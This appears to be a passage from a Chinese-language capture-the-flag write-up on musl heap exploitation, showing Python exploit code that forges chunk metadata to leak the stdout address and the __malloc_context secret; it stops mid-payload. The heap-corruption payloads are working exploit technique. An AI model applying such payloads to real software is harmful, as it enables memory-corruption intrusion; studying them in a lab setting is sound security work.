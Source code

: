 ```python
clear()

for i in range(5):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
add(11, 0x38, p64(11 + 0xdeadbeef00) + b'\n')
add(11, 0x78, p64(11 + 0xdeadbeef00) + b'\n')
delete(4)
print(hex(heap_addr))

payload = p64(4)
payload += p64(stdout)
payload += p64(0x20)
payload += p64(1)
payload += p64(elf_base + 0x51e0)
payload += p64(elf_base + 0x50e0)
payload += p64(0)

add(15, 0x38, payload)

payload = p64(11)
payload += p64(stdout)
payload += p64(0x38)
payload += p64(2)
payload += p64(0xdeadbeef)
payload += p64(elf_base + 0x5120)
payload += p64(elf_base + 0x5160)

add(13, 0x38, payload)
check(11)
```
![](https://img-blog.csdnimg.cn/7b575be7203b45b1a1d93a5164039118.png)
成功获取``stdout``的值。

### Step 3: 获取``__malloc_context``结构体中的``secret``值
和第二步相同，我们如法炮制。
```python
clear()

for i in range(6):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
clear()

for i in range(4):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
add(11, 0x38, p64(11 + 0xdeadbeef00) + b'\n')
add(11, 0x78, p64(11 + 0xdeadbeef00) + b'\n')
delete(3)
print(hex(heap_addr))

payload = p64(4)
payload += p64(__malloc_context)
payload += p64(0x20)
payload += p64(1)
payload += p64(elf_base + 0x51e0)
payload += p64(elf_base + 0x50e0)
payload += p64(0)

add(15, 0x38, payload)

payload = p64(11)
payload += p64(__malloc_context)
payload += p64(0x38)
```